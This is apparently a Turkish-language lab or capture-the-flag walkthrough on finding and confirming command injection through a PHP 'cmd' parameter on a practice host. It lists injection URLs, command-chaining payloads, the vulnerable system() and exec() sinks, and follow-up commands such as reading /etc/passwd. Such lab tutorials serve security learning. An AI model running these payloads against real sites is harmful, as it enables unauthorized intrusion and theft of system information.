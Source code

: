 1. Parametre Manipülasyonu (Injection Testi)
Eğer bir cmd parametresi varsa ve bu parametre bir komut çalıştırmak için kullanılıyorsa, bu bir komut enjeksiyonu (Command Injection) olasılığını gösterir.
Örnek test:
http://abc.thm/assets/index.php?cmd=whoami
http://abc.thm/assets/index.php?cmd=ls
Eğer bir sonuç dönerse (örneğin, dosyalar listeleniyorsa), komut çalıştırabildiğiniz anlaşılır.
2. Kendi Komutlarınızı Ekleyerek Test Etme
PHP'de genelde komutları zincirlemek için &&, |, ; veya $(komut) gibi operatörler kullanılır. Bununla test edebilirsiniz:

http://abc.thm/assets/index.php?cmd=ls;whoami
http://abc.thm/assets/index.php?cmd=ls&&whoami
Eğer sonuç dönüyorsa, komut zincirlemenin mümkün olduğu anlaşılır.
3. Yanıtı Analiz Etme
Eğer cmd parametresine rastgele değerler gönderdiğinizde bir hata mesajı dönerse, PHP'nin exec(), shell_exec() veya benzeri bir fonksiyonun çalıştığını fark edebilirsiniz. Örneğin:
http://abc.thm/assets/index.php?cmd=abc123
Dönen mesajda, komut bulunamadı (command not found) gibi ifadeler varsa, bu bir göstergedir.
4. Kaynak Kod Analizi
Eğer PHP dosyasını (örneğin /assets/.php) veya dizin altında başka bir dosyayı görüntüleme şansınız varsa, içeride şu gibi kodları arayabilirsiniz:

system($_GET['cmd']);
exec($_GET['cmd']);
passthru($_GET['cmd']);
Bu fonksiyonlar, gelen kullanıcı girdilerini işletim sisteminde komut olarak çalıştırmak için kullanılır.
5. Dışarı Çıkmaya Çalışma
Eğer ls gibi komutlar dönerse, daha fazla yetki veya bilgi almak için şu komutları deneyebilirsiniz:

pwd (Mevcut dizini öğrenmek için)
cat /etc/passwd (Kullanıcı bilgilerini görüntülemek için)
uname -a (Sistem bilgilerini almak için)
